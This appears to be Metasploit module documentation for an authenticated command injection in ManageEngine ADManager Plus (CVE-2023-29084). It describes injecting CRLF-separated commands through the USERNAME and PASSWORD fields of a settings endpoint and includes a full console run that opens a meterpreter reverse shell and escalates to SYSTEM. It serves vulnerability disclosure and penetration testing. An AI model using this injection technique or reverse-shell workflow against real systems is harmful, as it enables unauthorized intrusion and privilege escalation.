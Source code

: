 ## Vulnerable Application
ManageEngine ADManager Plus prior to build 7181 is vulnerable to an authenticated command injection due to insufficient
validation of user input when performing the `ChangePasswordAction` function before passing it into a string that is later
used as an OS command to execute. 

By making a POST request to `/api/json/admin/saveServerSettings` with a `params` POST
parameter containing a JSON array object that has a `USERNAME` or `PASSWORD` element containing a 
carriage return and newline, followed by the command the attacker wishes to execute, an attacker can gain RCE as the user
running ADManager Plus, which will typically be the local administrator. 

Note that the attacker must be authenticated in order to send requests to `/api/json/admin/saveServerSettings`, 
so this vulnerability does require authentication to exploit.

As this exploit modifies the HTTP proxy settings for the entire server, one cannot use fetch payloads
with this exploit, since these will use HTTP connections that will be affected by the change in configuration.

## Verification Steps

1. Set up a Windows Server target as a domain controller server.
2. Download https://web.archive.org/web/20220926012908if_/https://download.manageengine.com/products/ad-manager/13024552/ManageEngine_ADManager_Plus_64.exe onto the target and run through the setup window, accepting defaults.
3. Start `msfconsole`
4. `set RHOST *target IP*`
5. `set LHOST *local IP address*`
6. `set SRVHOST *local IP address*` <- This step is optional depending on payload.
7. `exploit`
8. You should get a shell back as the local administrator user on the target machine.

## Options

### USERNAME
Username to log into ADManager Plus as.

### PASSWORD
Password to log into ADManager Plus with.

### DOMAIN
Domain to log into ADManager Plus with or `ADManager Plus Authentication`.

## Scenarios

### ManageEngine ADManager Plus Build 7151 on Windows Server 2022
```
msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > show options

Module options (exploit/windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection):

   Name      Current Setting                Required  Description
   ----      ---------------                --------  -----------
   DOMAIN    ADManager Plus Authentication  yes       The domain to log into
   PASSWORD  admin                          yes       The password to log in with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    192.168.64.149                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     9090                           yes       The target port (TCP)
   SSL       false                          no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin                          yes       The user to log into ADManager Plus as
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.128   yes       The listen address (an interface may be specified)
   LPORT     8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > exploit

[*] Started reverse TCP handler on 192.168.64.128:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is running AdManager Plus build 7151!
[+] The target appears to be vulnerable. Target appears to be running a vulnerable version of AdManager Plus!
[+] Logged in successfully!
[*] Sending stage (175686 bytes) to 192.168.64.149
[*] Meterpreter session 3 opened (192.168.64.128:8899 -> 192.168.64.149:57276) at 2023-05-25 15:32:08 -0500
[+] Request timed out. Its likely the payload executed successfully!

meterpreter > getuid
Server username: DAFOREST\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeDelegateSessionUserImpersonatePrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```
